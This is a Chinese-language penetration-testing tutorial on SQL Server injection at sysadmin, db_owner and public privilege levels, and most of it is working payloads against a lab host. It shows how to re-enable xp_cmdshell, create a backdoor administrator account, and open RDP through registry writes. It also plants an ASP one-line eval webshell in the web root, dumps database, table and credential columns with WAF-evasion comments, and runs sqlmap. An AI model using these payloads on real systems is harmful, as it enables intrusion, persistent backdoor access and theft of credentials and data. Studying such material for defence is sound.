







# Sqlserver不同权限注入


## 识别当前用户权限

### SA

```shell
http://192.168.125.166/sqlserver/1.aspx?xxser=1 and 1=(select IS_SRVROLEMEMBER('sysadmin'))  
```

如果当前用户是sysadmin用户，那么1=1，条件成立，页面正常响应；反之，页面报错。

筛选条件为不存在的用户名时，1=null，条件依然成立，页面正常相应

```shell
AND (SELECT top 1 suser_sname() WHERE IS_SRVROLEMEMBER('sysadmin')=1)=SUSER_SNAME()

IS_SRVROLEMEMBER('sysadmin')=1  #判断当前登录账号是否拥有sysadmin服务器最高权限
SUSER_SNAME()  #SQL Server 内置函数，获取当前登录的数据库用户名
```

```shell
AND IS_SRVROLEMEMBER('sysadmin') = 1 #精简版
```


- 当前用户是 sysadmin 管理员：`左边用户名 = 右边用户名` → 条件**成立（TRUE）**

- 当前用户非管理员：`左边NULL = 右边用户名` → 条件**不成立（FALSE）**

这个语句**全程没有传入额外用户名**，只检测当前会话用户，因此**永远不会返回 NULL、不会报错**，完全对应图里 “不管输入什么都不会报错” 的描述。


### Db_owner

```shell
AND IS_ROLEMEMBER('db_owner') = 1  
```

如果当前登录用户为Db_owner用户，即1=1，条件成立，页面正常显示


### Public

```shell
AND IS_ROLEMEMBER('public') = 1
```

如果当前登录用户为Public用户，即1=1，条件成立，页面正常显示


## SA注入

SA用户→xp_cmdshell→新建用户→加入到管理员用户组→开启3389远程连接端口→远程连接

### 开启xp_cmdshell

```shell
http://192.168.125.166/sqlserver/1.aspx?xxser=1 and 1=(select count(*) from master.dbo.sysobjects where name ='xp_cmdshell')
```

页面正常显示代表xp_cmdshell正常开启，如果后续注入时出现xp_cmdshell被限制的报错执行以下指令

```shell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC
sp_configure 'xp_cmdshell', 1;RECONFIGURE;--  #恢复xp_cmdshell
```


### 新建用户

```shell
http://192.168.125.166/sqlserver/1.aspx?xxser=1;exec master..xp_cmdshell 'net user jaden 123456 /add'  #新建用户jaden 密码123456
```


### 提权

```shell
http://192.168.125.166/sqlserver/1.aspx?xxser=1;exec master..xp_cmdshell 'net localgroup administrators jaden /add'  #将用户jaden添加进管理员组
```


### 开启3389端口

```shell
;exec master.dbo.xp_regwrite 
'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\Terminal Server',
'fDenyTSConnections',
'REG_DWORD',
0; 
```


### 关闭3389端口

```shell
;exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',1;  
```


### SA权限开启web服务扩展

```shell
exec master.dbo.xp_regwrite
'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Active Server Pages',
'Enable',
'REG_DWORD',
1;
```


## Db_owner权限注入

Db_owner用户→xp_cmdshell→获取站点真实路径→注入一句话木马

### xp_cmdshell开启

#### 获取站点真实路径

```shell
;drop table black;create Table black(result varchar(7996) null, id int not
null identity (1,1))--  #删除原有black表，新建black表

insert into black exec master..xp_cmdshell 'dir /s c:\1.aspx'--  #搜索目标站点真实路径，将结果保存到black表中

and (select result from black where id=4)>0-- # 查找black表中的数据，站点真实路径保存在第4行
```


#### 注入一句话木马

```shell
EXEC master..xp_cmdshell 'Echo "
<%eval%20request("jaden")%>" >> c:\www\wwwroot\sqlserver\muma.asp'--
```


#### 开启web服务扩展



开启之后，服务器才能运行后缀为 `.asp` 的脚本


#### 远程访问木马

用一句话木马访问工具远程连接




### xp_cmdshell关闭

#### 获取站点真实路径

Db_owner用户不具备开启xp_cmdshell的权限，可以使用自动化工具扫描站点根路径

获取站点真实路径→创建一张表写入一句话木马→将木马文件后缀改成`.asp`备份到网站真实路径→远程连接


## Public权限注入

Public用户权限最低，可尝试拖库

### 爆库名

```shell
and db_name()=0--  #获取当前网站库名
and 1=(select db_name(1)) --+  #获取其他库名
and 1=(select db_name(2)) --+
...
```




### 爆表名

```shell
select top 1 name from 当前数据库.sys.all_objects where type='U' AND
is_ms_shipped=0 and name not in (select top i name from 当前数据库.sys.all_objects
where type='U' AND is_ms_shipped=0) //修改i的值来查看

例如
and (select top 1 name from testdb.sys.all_objects where type='U' AND
is_ms_shipped=0 and name not in (select top 0 name from testdb.sys.all_objects
where type='U' AND is_ms_shipped=0))>0--
```




### 爆字段名

```shell
having 1=1-- 
```




第一条指令的结果作为第二条指令的参数，依次遍历查询

```shell
group by admin.id having 1=1-- 
```




### 爆字段内容

其中`/**/`没有什么特殊的含义，就和一个空格似的，像一个干扰符号，早期是
为了通过waf用的，把这个语句里面的库名、表名、字段名替换掉

```shell
 /**/and/**/(select/**/top/**/1/**/isnull(cast([id]/**/as/**/nvarchar(4000)),char
(32))%2bchar(94)%2bisnull(cast([name]/**/as/**/nvarchar(4000)),char(32))%2bchar(94)%
2bisnull(cast([password]/**/as/**/nvarchar(4000)),char(32))/**/from/**/[testdb]..
[admin]/**/where/**/1=1/**/and/**/id/**/not/**/in/**/(select/**/top/**/0/**/id/**/fr
om/**/[testdb]..[admin]/**/where/**/1=1/**/group/**/by/**/id))%3E0/**/and/**/1=1
```




## Sqlmap更方便

```shell
sqlmap.py -u "指定网址" -batch-smart  #智能注入，自动保存，直接Ctrl V了
```


